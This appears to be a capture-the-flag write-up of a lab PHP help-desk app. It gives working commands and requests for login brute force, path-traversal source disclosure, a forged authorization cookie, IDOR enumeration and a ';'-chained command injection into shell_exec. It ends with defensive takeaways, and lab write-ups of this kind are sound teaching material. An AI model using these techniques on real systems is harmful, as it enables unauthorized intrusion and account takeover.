



Network Reconnaissance
Standard opener — a SYN scan with service and default-script detection to map the attack surface before touching anything.
shell
sudo nmap -sS -sV -sC -F -T4 <TARGET_IP>
# -sS stealth SYN -sV versions -sC default scripts -F fast (top 100)PHPSESSID cookie ships without the HttpOnly flag. Not the vuln we end up using, but it's the kind of detail that tells you the devs were in a hurry. Two ports, a PHP app, and a login page titled like a corporate help desk. Everything interesting lives on port 80.Port 80 — Web Enumeration

The landing page is a login form for an internal "Support Operations Panel." Before throwing credentials at it, I mapped the directory structure with dirsearch and then confirmed with ffuf + a .php extension list.
shell
dirsearch -u http://<TARGET_IP>
# interesting hits
302 /api.php -> index.php
200 /config.php # empty body... for now
302 /dashboard.php -> index.php
200 /footer.php
200 /info.php # 73KB — that's a phpinfo() smell
302 /user/0 /user/1 /user/2 /user/3 -> index.phpshell
ffuf -u http://<TARGET_IP>/FUZZ \
-w /usr/share/seclists/Discovery/Web-Content/big.txt -e .phpapi.php and a clutch of /user/N endpoints that all 302 back to login (no session yet), a dashboard.php behind auth, and a footer.php that renders standalone. Four numbered user endpoints is basically a neon sign reading "IDOR this way" — filed away for later.Information Disclosure — info.php
A 73 KB response with no auth gate is almost always phpinfo(), and it was. Left in production it leaks the full PHP configuration, loaded modules, absolute paths, and environment — a free recon dump for the attacker and a "we forgot to delete this" badge for the defenders.
http
GET http://<TARGET_IP>/info.php
# full phpinfo() — document root, modules, env vars, the worksinfo.php exposes phpinfo() to anyone with a browser. No credentials, no questions asked. It didn't carry the final blow on its own, but it confirmed absolute paths (handy later for the file read) and screamed "this app was deployed by someone who trusts the internet."Probing the API
Naturally I poked api.php directly. Unauthenticated it just bounces you to index.php — every method, every payload, GET, POST, JSON, OPTIONS. The API has opinions about who it talks to.
shell
curl -i http://<TARGET_IP>/api.php
HTTP/1.1 302 Found
Location: index.php # "talk to the hand"
# JSON, form data, OPTIONS — all the same 302. Need a session first.Dead end without a session. Which means we need credentials. And the login page so kindly gave us a username...
Credential Brute Force — Helpdesk
With help@support.thm handed to us on the login page, this becomes a single-user password spray. I used legba against the login POST, treating "no Invalid credentials string in the body" as the success condition.
shell
legba http \
-U 'help@support.thm' \
-P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt \
-T http://<TARGET_IP>/ \
--http-method POST \
--http-success '!contains(body, "Invalid credentials")' \
--http-payload 'email={USERNAME}&password={PASSWORD}' \
--single-match --concurrency 4 -Q
[+] username=help@support.thm password=$PASS
# cracked in ~6 seconds — a top-10k password on a corporate panel. classic.help@support.thm / $PASS. A password that lives in the first ten thousand lines of every wordlist on earth, guarding a "support operations" platform. The help desk could not, in fact, help itself.Foothold — Helpdesk Dashboard

Logged in, the dashboard is sparse: a ticket panel and a cosmetic theme selector in the footer. Re-probing api.php with our shiny session still slaps us down — this time with a different message:
http — burp
GET /api.php # now authenticated
HTTP/1.1 200 OK
Access denied # progress! 302 -> 200 + a real refusalAccess denied. We're authenticated but not authorized. Something server-side is checking a second condition beyond "are you logged in." We need to see the source to know what.Local File Disclosure via the Theme Switcher
That harmless Select Theme feature drives a parameter: dashboard.php?skin=default. Anything that loads a file by name off a query parameter is a path-traversal candidate. Pointing it at a relative path with no extension shows the skin handler happily include-ing arbitrary local files — and because the loaded PHP doesn't execute in this context, its raw source bleeds into the page. Classic Local File Disclosure (LFD).
http
GET /dashboard.php?skin=../config # -> config.php source
GET /dashboard.php?skin=../api # -> api.php source
GET /dashboard.php?skin=../dashboard # -> dashboard.php source
GET /dashboard.php?skin=../footer # -> footer.php sourceskin parameter feeds straight into a file include with zero sanitization. The empty-bodied config.php from our earlier scan suddenly becomes very chatty when we read its source instead of executing it. We just got read access to the application's brain.Source Code Loot
First file on the list — config.php. It coughed up a master password and app metadata:
php — config.php (via LFD)
<?php
$MASTER_PASSWORD = '$PASS';
$SITE_VER = '1.0';
$SITE_NAME = 'support_portal';Then the prize — api.php. Reading its source tells us exactly why we kept getting Access denied, and how the /user/N endpoints work:
php — api.php (via LFD)
session_start();
if (!isset($_SESSION['loggedin'])) {
header('Location: index.php'); exit;
}
if (($_COOKIE['isITUser'] ?? md5('false')) !== md5('true')) {
die('Access denied');
}
include('/var/www/db.php');
$id = $_GET['id'] ?? $_SESSION['user_id'];
$user = $users[$id] ?? null;
if (preg_match('#^/user/#', $_SERVER['REQUEST_URI'])) {
header('Content-Type: application/json');
unset($user['password']);
echo json_encode($user, JSON_PRETTY_PRINT);
exit;
}isITUser, against md5('true'). That's a fixed, public, identical-for-everyone-on-earth value: b326b5062b2f0e69046810717534cb09. The lock comes with the key drawn on the door.Broken Access Control — Becoming "IT"
Authorization that trusts a client-side cookie isn't authorization — it's a suggestion. The server decides whether you're in the IT department based purely on a value you mail it. To promote ourselves, we just set the cookie to the well-known hash of the string true.
shell
echo -n true | md5sum
b326b5062b2f0e69046810717534cb09
# add it to the request and the API stops sulking
Cookie: PHPSESSID=<sess>; isITUser=b326b5062b2f0e69046810717534cb09IDOR — Enumerating Users to Admin
Remember those four /user/N endpoints from recon? With our IT cookie attached, they finally answer — and the id is a plain integer with no ownership check. Walk the IDs and the application happily reads out everyone's profile (minus the password field, which it politely unset()s).
http
GET /user/1 HTTP/1.1
Cookie: PHPSESSID=<sess>; isITUser=b326b5062b2f0e69046810717534cb09
HTTP/1.1 200 OK
Content-Type: application/json
{
"email": "specialadmin@support.thm",
"2FA": false,
"admin": true
}
/user/1: specialadmin@support.thm, admin: true, and — crucially — 2FA: false. An admin account with no second factor is just a password away.Targeted Wordlist → Admin Brute Force
Reusing the master password from config.php against the admin login didn't work directly — but admins love variations of a known password. So instead of a generic list, I generated a target-specific one: seed John with the master password and apply rule-based mutations to spin up thousands of plausible variants.
shell
# pass.txt = the master password from config.php
john --wordlist=pass.txt --stdout --rules:rockyou-30000 > rockyou-30000.txt
# ~30k mutations of one password — leetspeak, suffixes, case flips, etc.shell
legba http \
-U 'specialadmin@support.thm' \
-P rockyou-30000.txt \
-T http://<TARGET_IP>/ \
--http-method POST \
--http-success '!contains(body, "Invalid credentials")' \
--http-payload 'email={USERNAME}&password={PASSWORD}' \
--single-match --concurrency 4 -Q
[+] username=specialadmin@support.thm password=$PASSAdmin Access & First Flag
Logging in as specialadmin@support.thm unlocks the admin view of the dashboard and the room's first flag. But the more interesting prize is what the admin role enables in the footer — so we go straight back to our LFD to read footer.php and see what admins get to do.
php — footer.php (via LFD)
$isAdmin = $_SESSION['admin'];
if ($isAdmin && $_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['sys'])) {
$sys = $_POST['sys'];
if (strpos($sys, 'date') === 0) {
$output = shell_exec($sys); # <-- hello, old friend
} else {
$error = 'Only date command is allowed.';
}
}shell_exec(). The only "validation" is that the string must start with date. That's not a sandbox — that's a velvet rope you step around with a single ;.Command Injection → Flag
The filter only checks that input begins with date. It says nothing about what comes after. So we satisfy the prefix, then chain our own commands with ;. Intercepting the footer's POST in Burp and tweaking the sys parameter:
http — burp request
POST /dashboard.php HTTP/1.1
Cookie: PHPSESSID=<sess>; isITUser=b326b5062b2f0e69046810717534cb09
Content-Type: application/x-www-form-urlencoded
# url-decoded payload:
sys=date +"%H:%M:%S"; id; cat /home/ubuntu/user.txthttp — response
<pre class="mb-0">07:24:39
uid=33(www-data) gid=33(www-data) groups=33(www-data)
THM{$FLAG}</pre>skin → leaked source & master password → forged isITUser cookie → IDOR to admin → targeted brute force → admin shell_exec() command injection → code execution as www-data and the flag. The "date" command told us a lot more than the time. ✓Key Takeaways
phpinfo() or debug pages. info.php handed an unauthenticated attacker the full server configuration and absolute paths. Delete diagnostic files before deploy.skin parameter flowed into an include with no allowlist, exposing application source and secrets. Map themes to a fixed server-side allowlist — never to a raw path.isITUser == md5('true') — a value the client computes — is no gate at all. Read roles from trusted server-side session state./user/N let us enumerate every account, including the admin, by incrementing an integer. Always verify the requester is allowed to see the object.strpos($sys,'date')===0 let date; cat ... sail through into shell_exec(). Avoid shelling out entirely; if you must, use strict allowlists and argument arrays — never string concatenation.